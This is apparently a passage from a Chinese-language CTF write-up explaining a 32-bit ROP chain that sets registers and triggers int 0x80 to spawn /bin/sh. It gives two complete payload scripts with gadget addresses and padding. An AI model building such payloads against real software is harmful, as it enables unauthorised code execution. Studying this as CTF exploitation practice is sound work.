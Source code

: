 查到 32 位程序 syscall 调用 int80 所需要的条件：设置 eax = 11 = 0xb, ebx = &(“/bin/sh”), ecx = edx = edi = 0. “/bin/sh”

▲这里怎么找都可以，只要最后条件满足即可。参考 pwn_myself - else.py。代码执行过程中 return 直接就是返回跳转到当前 esp 的指向的内容。所以设置 payload 顺序也很重要。

原作者的代码是：

```
#注释头
 
ppppr = 0x080a150a    #pop eax; pop ebx; pop esi; pop edi; ret
pppr = 0x080733b0 #pop edx; pop ecx; pop ebx; ret
int_80 = 0x08071005   #int 0x80
binsh = 0x080f1a20    #first_name address
 
payload = "A"*32      #padding
payload += p32(ppppr) #pop eax; pop ebx; pop esi; pop edi; ret
payload += p32(0xb)   #eax = 0xb
payload += p32(binsh) #ebx = &("/bin/sh")
payload += p32(0)     #esi = 0
payload += p32(0)
payload += p32(0)     #edi = 0
payload += p32(pppr)  #pop edx; pop ecx; pop ebx; ret
payload += p32(0)     #edx = 0
payload += p32(0)     #ecx = 0
payload += p32(binsh) #ebx = &("/bin/sh")
payload += p32(int_80) #int 0x80

```

这里怎么 ROP 都可以，例如下列代码一样的效果：

```
#注释头
 
p_eax = 0x080BC396
p_esi = 0x080551B2
p_edi = 0x08052FFA
p_edx = 0x0807338A
p_ecx = 0x080E4325
p_ebx = 0x080538EB
int_80 = 0x08071005
binsh = 0x080f1a20 #first_name address
 
payload = 'A'*32 #padding
 
##set the value of register
payload += p32(p_eax)
payload += p32(0xb) #eax = 0xb
payload += p32(p_esi)
payload += p32(0) #esi = 0
payload += p32(p_edi)
payload += p32(0) #edi = 0
payload += p32(p_edx)
payload += p32(0) #edx = 0
payload += p32(p_ecx)
payload += p32(0) #ecx = 0
payload += p32(p_ebx)
payload += p32(binsh) #ebx = &("/bin/sh")
payload += p32(int_80) #int 0x80

```
